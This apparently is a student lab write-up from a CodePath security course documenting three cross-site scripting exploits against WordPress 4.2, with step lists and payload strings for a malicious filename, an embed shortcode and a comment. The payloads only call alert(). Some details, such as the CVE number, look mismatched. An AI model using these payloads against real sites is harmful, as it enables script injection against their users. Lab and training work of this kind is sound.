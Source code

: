 # CodePath Week 7
Week 7 Word Press Exploits

Exploit 1: Cross-Site Scripting (XSS)

Summary:
CVE-2017-0961
Vulnerability type : XSS
Tested Version: 4.2
Fixed Version: 4.2.1
Uploading a large payload file that exceeds the limit results in an error.

Steps:
xss<img src=x onerror=alert(1)>.png
upload to new media on wpdistillery


Exploit 2: Authenticated XSS in youtube link

Summary:
Vulnerability Type: XSS
Test Version: 4.2
Fixed Version: 4.2.1

Steps:
Must be a registered user with acess to edit/create posts
In creating a post, upload the following script:
[embed src='https://youtube.com/embed/123\x3csvg onload=alert(1)\x3e'][/embed]
After clicking update, click view post- you will get the XSS alert



Exploit 3: Unauthenticated XSS in comment

Summary:

Vulnerability Type: XSS
Test Version: 4.2
Fixed Version: 4.2.1

Steps:
Comment on a post with the following script
<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute; left:0; top:0; width:5000px; height:5000px  <insert 64kb of random data>'></a>





